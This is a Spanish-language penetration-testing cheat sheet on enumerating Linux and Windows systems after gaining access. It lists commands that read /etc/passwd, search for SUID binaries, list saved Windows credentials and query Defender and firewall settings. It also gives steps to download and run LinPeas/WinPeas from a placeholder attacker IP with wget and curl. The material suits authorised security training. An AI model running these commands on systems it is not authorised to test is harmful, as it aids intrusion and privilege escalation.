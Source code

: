 # ENUMERAR SISTEMA 🕵️‍♂️🔍

La enumeración es un paso crítico para obtener información sobre el sistema objetivo. Puede hacerse de manera **manual** o mediante **herramientas automáticas**.

---

## MANUAL 🛠️

### LINUX 🐧

- **`whoami`** => Averigua el usuario actual
- **`hostname`** => Averigua el nombre del host
- **`uname -a`** => Muestra la versión del kernel
- **`cat /proc/version`** => Ver la versión del kernel
- **`cat /etc/passwd`** => Ver los usuarios en el sistema
- **`ifconfig`** => Ver la IP y tarjetas de red (para posibles pivotajes)
- **`sudo -l`** => Muestra los comandos que se pueden ejecutar con sudo
- **`netstat`** => Ver los servicios que están corriendo
- **`ps -ef`** => Ver los procesos que están en ejecución
- **`env`** => Mostrar las variables de entorno
- **`id`** => Ver el ID de usuario
- **`cat /etc/crontab`** => Ver las tareas programadas
- **`find / perm -u=s -type f 2>/dev/null`** => Buscar comandos vulnerables para añadir permisos
- **`getcap -r / 2>/dev/null`** => Buscar capacidades en archivos ejecutables

---

### WINDOWS 🖥️

- **`hostname`** => Muestra el nombre del host
- **`whoami`** => Muestra el nombre del usuario
- **`whoami /priv`** => Ver los permisos disponibles en la máquina (similar a `sudo -l`)
- **`systeminfo`** => Ver los parches instalados en la máquina, la versión del kernel
- **`ipconfig`** => Ver la IP y tarjetas de red
- **`cmdkey /list`** => Ver las credenciales guardadas
- **`icacls <ruta>`** => Ver los permisos de una ruta especificada
- **`sc query windefend`** => Consultar el servicio de Windows Defender
- **`sc queryex type=service`** => Consultar los servicios en el sistema
- **`netsh advfirewall firewall dump`** => Ver la configuración del firewall o antivirus
- **`schtasks /query /fo LIST /v`** => Ver las tareas programadas
- **`reg /query`** => Consultar el registro de Windows
- **`Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections`** => Consultar las políticas de AppLocker

---

## AUTOMATICO 🤖

### Herramientas para Enumeración

#### **LinPeas** (Linux/Mac)
Automatiza la enumeración en sistemas Linux y Mac.

- **Pasos para usar LinPeas en Linux:**
  1. Crea un servidor en la máquina atacante en la carpeta de LinPeas: `/usr/share/peass/linpeas`
     ```bash
     python3 -m http.server 8080
     ```
  2. En el sistema objetivo, navega al directorio `/tmp` para descargar LinPeas:
     ```bash
     wget http://<IP_ATACANTE>:8080/linpeas.sh
     ```
  3. Asigna permisos de ejecución al archivo descargado:
     ```bash
     chmod +x linpeas.sh
     ```
  4. Ejecuta el script:
     ```bash
     ./linpeas.sh
     ```

#### **WinPeas** (Windows)
Automatiza la enumeración en sistemas Windows.

- **Pasos para usar WinPeas en Windows:**
  1. Crea un servidor en la máquina atacante:
     ```bash
     python3 -m http.server 8080
     ```
  2. Busca una carpeta en el sistema objetivo donde puedas escribir y descarga WinPeas:
     ```bash
     curl -O http://<IP_ATACANTE>:8080/winPEASany_ofs.exe
     ```
  3. Ejecuta el archivo `.exe` descargado:
     ```bash
     /winPEASany_ofs.exe
     ```

#### **MacPeas** (Obsoleto)
Ahora se usa LinPeas para la enumeración en Mac.

---

> **Nota** 📝: Asegúrate de tener permisos explícitos para realizar estas pruebas en los sistemas que estás evaluando. ⚠️
